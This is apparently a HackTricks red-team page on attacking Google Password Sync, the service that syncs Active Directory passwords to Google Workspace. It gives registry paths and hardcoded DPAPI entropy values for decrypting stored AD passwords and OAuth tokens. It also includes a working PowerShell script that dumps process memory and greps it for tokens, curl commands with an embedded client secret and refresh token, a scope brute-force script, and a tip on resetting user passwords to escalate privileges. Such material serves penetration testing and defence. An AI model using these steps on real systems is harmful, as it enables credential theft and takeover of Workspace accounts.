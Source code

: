 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

This is the binary and service that Google offers in order to **keep synchronized the passwords of the users between the AD** and Workspace. Every-time a user changes his password in the AD, it's set to Google.

It gets installed in `C:\Program Files\Google\Password Sync` where you can find the binary `PasswordSync.exe` to configure it and `password_sync_service.exe` (the service that will continue running).

### GPS - Configuration

To configure this binary (and service), it's needed to **give it access to a Super Admin principal in Workspace**:

* Login via **OAuth** with Google and then it'll **store a token in the registry (encrypted)**
  * Only available in Domain Controllers with GUI
* Giving some **Service Account credentials from GCP** (json file) with permissions to **manage the Workspace users**
  * Very bad idea as those credentials never expired and could be misused
  * Very bad idea give a SA access over workspace as the SA could get compromised in GCP and it'll possible to pivot to Workspace
  * Google require it for domain controlled without GUI
  * These creds are also stored in the registry

Regarding AD, it's possible to indicate it to use the current **applications context, anonymous or some specific credentials**. If the credentials option is selected, the **username** is stored inside a file in the **disk** and the **password** is **encrypted** and stored in the **registry**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

In the file **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** it's possible to find part of the configuration like the **`baseDN`** of the AD configured and the **`username`** whose credentials are being used.

In the registry **`HKLM\Software\Google\Google Apps Password Sync`** it's possible to find the **encrypted refresh token** and the **encrypted password** for the AD user (if any). Moreover, if instead of an token, some **SA credentials** are used, it's also possible to find those encrypted in that registry address. The **values** inside this registry are only **accessible** by **Administrators**.

The encrypted **password** (if any) is inside the key **`ADPassword`** and is encrypted using **`CryptProtectData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

The encrypted token (if any) is inside the key **`AuthToken`** and is encrypted using **`CryptProtecData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Moreover, it's also encoded using base32hex with the dictionary **`0123456789abcdefghijklmnopqrstv`**.

The entropy values were found by using the tool . It was configured to monitor the calls to **`CryptUnprotectData`** and **`CryptProtectData`** and then the tool was used to launch and monitor `PasswordSync.exe` which will decrypt the configured password and auth token at the beginning and the tool will **show the values for the entropy used** in both cases:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note that it's also possible to see the **decrypted** values in the input or output of the calls to these APIs also (in case at some point Winpeas stop working).

In case the Password Sync was **configured with SA credentials**, it will also be stored in keys inside the registry **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `PasswordSync.exe` and the `password_sync_service.exe` processes and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities   
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"   
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"   
$dumpFolder = "C:\Users\Public\dumps"   
 
# Regular expressions for tokens 
$tokenRegexes = @( 
    "ya29\.[a-zA-Z0-9_\.\-]{50,}", 
    "1//[a-zA-Z0-9_\.\-]{50,}" 
) 
 
# Show EULA if it wasn't accepted yet for strings 
$stringsPath 
 
# Create a directory for the dumps if it doesn't exist   
if (!(Test-Path $dumpFolder)) {   
    New-Item -Path $dumpFolder -ItemType Directory   
}   
 
# Get all Chrome process IDs   
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id
 
# Dump each Chrome process   
foreach ($processId in $chromeProcesses) {   
    Write-Output "Dumping process with PID: $processId"   
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"   
}   
 
# Extract strings and search for tokens in each dump   
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {   
    $dumpFile = $_.FullName   
    $baseName = $_.BaseName 
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"   
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"   
 
    Write-Output "Extracting strings from $dumpFile"   
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile   
    & $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile   
 
    $outputFiles = @($asciiStringsFile, $unicodeStringsFile) 
 
    foreach ($file in $outputFiles) { 
        foreach ($regex in $tokenRegexes) { 
 
            $matches = Select-String -Path $file -Pattern $regex -AllMatches 
 
            $uniqueMatches = @{} 
 
            foreach ($matchInfo in $matches) { 
                foreach ($match in $matchInfo.Matches) { 
                    $matchValue = $match.Value 
                    if (-not $uniqueMatches.ContainsKey($matchValue)) { 
                        $uniqueMatches[$matchValue] = @{ 
                            LineNumber = $matchInfo.LineNumber 
                            LineText   = $matchInfo.Line.Trim() 
                            FilePath   = $matchInfo.Path 
                        } 
                    } 
                } 
            } 
 
            foreach ($matchValue in $uniqueMatches.Keys) { 
                $info = $uniqueMatches[$matchValue] 
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)" 
            } 
        } 
 
        Write-Output "" 
    } 
}
```

</details>

### GPS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     https://www.googleapis.com/oauth2/v4/token
```

### GPS - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do 
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.user
```

Which is the same one you get if you don't indicate any scope.

{% hint style="danger" %}
With this scope you could **modify the password of a existing user to escalate privileges**.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
